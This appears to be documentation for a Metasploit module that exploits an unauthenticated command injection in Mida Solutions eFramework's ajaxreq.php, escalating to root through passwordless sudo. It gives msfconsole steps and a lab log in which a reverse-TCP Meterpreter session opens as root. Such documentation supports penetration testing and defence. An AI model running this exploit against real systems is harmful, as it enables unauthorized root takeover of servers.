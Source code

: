 ## Vulnerable Application

This module exploits a command injection vulnerability in
[Mida Solutions eFramework](https://www.midasolutions.com/)
version 2.9.0 and prior.

The `ajaxreq.php` file allows unauthenticated users to inject
arbitrary commands in the `PARAM` parameter to be executed as
the apache user. The sudo configuration permits the apache user
to execute any command as root without providing a password,
resulting in privileged command execution as root.

This module has been successfully tested on Mida Solutions
eFramework-C7-2.9.0 virtual appliance.

Download:

http://ova-efw.midasolutions.com/

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/mida_solutions_eframework_ajaxreq_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set payload [payload]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### TARGETURI

Base path to eFramework (Default: `/`)

## Scenarios

```
msf > use exploit/linux/http/mida_solutions_eframework_ajaxreq_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > set rhosts 172.16.191.123
rhosts => 172.16.191.123
msf exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > check
[+] 172.16.191.123:443 - The target is vulnerable.
msf exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (3008420 bytes) to 172.16.191.123
[*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.123:42452) at 2020-08-30 08:42:27 -0400
[*] Command Stager progress - 100.00% done (897/897 bytes)

meterpreter > getuid
Server username: root @ eFramework-1 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.16.191.123
OS           : CentOS 7.6.1810 (Linux 3.10.0-957.10.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
